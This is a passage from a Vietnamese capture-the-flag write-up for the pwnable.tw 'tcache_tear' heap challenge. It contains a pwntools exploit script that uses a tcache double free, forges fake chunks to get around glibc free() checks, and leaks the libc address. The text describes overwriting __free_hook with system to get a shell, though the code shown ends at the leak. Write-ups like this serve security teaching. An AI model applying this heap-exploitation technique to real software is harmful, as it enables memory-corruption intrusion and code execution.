 ```cpp
  been given one chance to be used in malloc.
  */
    ...
}
```

Ta bypass bằng cách thêm một chunk nữa được set flag PREV_INUSE ở ngay sau để `nextinuse` true là được.

```python
malloc1(b'15', \
  (p64(0)*3 + p64(NAME_ADDR + 0x10) + p64(0)*154) + \
  (p64(0) + p64(0x21) + p64(0)*2) + \
  (p64(0) + p64(0x21))) # fake chunk
```

Thế là đã xong bước 2.  
Bước cuối là leak libc và ghi đè `__free_hook` thành system, sau đó lấy shell là được. Sau đây là toàn bộ mã khai thác.

```python
#!/usr/bin/python3
from pwn import *

context.binary = elf = ELF("./tcache_tear_patched", checksec = False)
libc = ELF("./libc.so.6", checksec = False)

con = process()
# con = remote("chall.pwnable.tw", 10207)

def debug_from_here():
    gdb.attach(con, gdb_args=['-ex', 'init-gef'], gdbscript = '''
        b*0x400b14
        b*0x400c54
    ''')
    input()

def malloc1(size, payload):
    con.sendlineafter(b'Your choice :', b'1')
    con.sendlineafter(b'Size:', size)
    con.sendlineafter(b'Data:', payload)

def free2():
    con.sendlineafter(b'Your choice :', b'2')

def libc_leak():
    con.sendlineafter(b'Your choice :', b'3')
    con.recvuntil(b'Name :')
    con.recv(16)
    return u64(con.recv(8))

NAME_ADDR = 0x602060

con.sendlineafter(b'Name:', p64(0) + p64(0x501)) # Fake chunk's metadata
malloc1(b'15', b'abcd1') # p1
free2() # tcache[0x10] = [p1]
free2() # tcache[0x10] = [p1 -> p1]

malloc1(b'15', p64(NAME_ADDR + 0x10)) # tcache[0x10] = [p1 -> name]
malloc1(b'15', b'abcd2') # tcache[0x10] = [name]
malloc1(b'15', (p64(0)*3 + p64(NAME_ADDR + 0x10) + p64(0)*154) + (p64(0) + p64(0x21) + p64(0)*2) + (p64(0) + p64(0x21))) # fake chunk
free2()

libc.address = libc_leak() - 0x3ebca0
```